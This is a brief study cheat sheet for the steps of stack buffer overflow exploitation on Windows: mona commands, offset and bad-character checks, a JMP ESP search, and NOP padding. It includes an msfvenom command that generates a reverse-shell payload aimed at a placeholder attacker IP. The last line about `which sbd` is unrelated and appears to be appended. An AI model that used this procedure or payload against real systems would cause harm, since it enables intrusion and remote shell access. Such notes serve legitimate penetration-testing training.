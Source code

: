 Buffer overflow
================================================================
- Set workingfolder	
    `!mona config -set workingfolder c:\mona\%p`
- Fuzzing	
    `Using fuzzer.py`
- create pattern on bytes crashes	
    `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [bytes]`
- findmsp on bytes crashes	
    `!mona findmsp -distance [bytes_range]`

- check for eip offset value

- set value offset and retn value	

- Make sure eip same with retn value	

- check bad character	
    `!mona bytearray -b "\x00"`

- generate a string of bad character	
    `Using badchars.py`

- compare bad character 	
    `!mona compare -f bytearray.bin -a [esp address]`

- check list possible bad chars	

- generate new bad chars with possible chars we found until unmodified with esp address	

- find jump point choose the top one	
    `!mona jmp -r esp -cpb  "\x00[possible bad chars]"`

update retn with new address from jump point	
    `retn = reverse address ("\xaf\x11\x50\x62")`

- create msfvenom payload 	
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "[badchars]" -f c`

- add padding	
    `"\x90" * 16`

-   Search through directories in the `$PATH` environment variable  
    `which sbd`